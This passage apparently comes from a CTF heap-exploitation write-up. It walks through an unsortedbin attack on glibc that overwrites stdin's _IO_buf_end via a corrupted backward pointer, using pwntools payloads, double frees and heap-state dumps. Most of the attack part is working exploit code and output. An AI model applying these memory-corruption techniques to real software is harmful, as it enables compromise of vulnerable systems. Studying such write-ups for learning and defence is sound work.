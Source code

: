 According to what I said earlier, the goal is to replace `stdin->_IO_buf_end` with `&unsortedbin` which means we have to write to the backward pointer of the last chunk in the unsorted bin (chunk_2) `&stdin->_IO_buf_end - 0x10`. To do so we can trigger a write after free primitive by taking back `chunk_2` from the unsorted bin to the fastbin:
```py
"""
Before:
0x30: 0x5555556085e0 —▸ 0x7ffff7dcfca0 (main_arena+96) ◂— 0x5555556085e0
0x40: 0x555555608560 —▸ 0x5555556085a0 ◂— 0x0
unsortedbin
all: 0x5555556085e0 —▸ 0x7ffff7dcfca0 (main_arena+96) ◂— 0x5555556085e0
"""

add(7, 56, b"A"*55) # pop it to access to chunk_1

add(8, 56, b"A"*56 + b"\x31") # restore valid fastbin chunk part of the 0x30 freelist
# put it back to the fastbin 

add(9, 40, pwn.p64(libc + 0x3ebca0) + pwn.p64(stdin + 0x40 - 0x10))
# Write after free, &stdin->_IO_buf_end = stdin + 0x40, minus 0x10 point to the fake header

"""
After:
0x30: 0x7ffff7dcfca0 (main_arena+96) —▸ 0x5555556085e0 ◂— 0x7ffff7dcfca0
unsortedbin
all [corrupted]
FD: 0x5555556085e0 —▸ 0x7ffff7dcfca0 (main_arena+96) ◂— 0x5555556085e0
BK: 0x5555556085e0 —▸ 0x7ffff7dcfa30 (_IO_2_1_stdin_+48) ◂— 0x0
"""
```
As you can read right above, the `chunk_2` has its backward pointer set to `&stdin->_IO_buf_end - 0x10`. To achieve the partial unlink we just have to request a `0x30` sized chunk with nothing in the fastbin freelists. That's the last step of the unsortedbin attack, clean out the fastbin:
```py
"""
Before: same as above
"""

# == clean fastbin

freexalloc(5, 560, b"", doubleFree=True)

freexalloc(4, 560, b"", doubleFree=True)
add(11, 56, b"1"*56 + b"\x40")

freexalloc(5, 560, b"", doubleFree=True)
add(12, 56, pwn.p64(0))

freexalloc(4, 560, b"", doubleFree=True)
add(13, 56, b"1"*56 + b"\x30")

add(14, 40, b"1"*10)

# == clean fastbin

"""
fastbins
0x30: 0x0
0x40: 0x0
"""
```
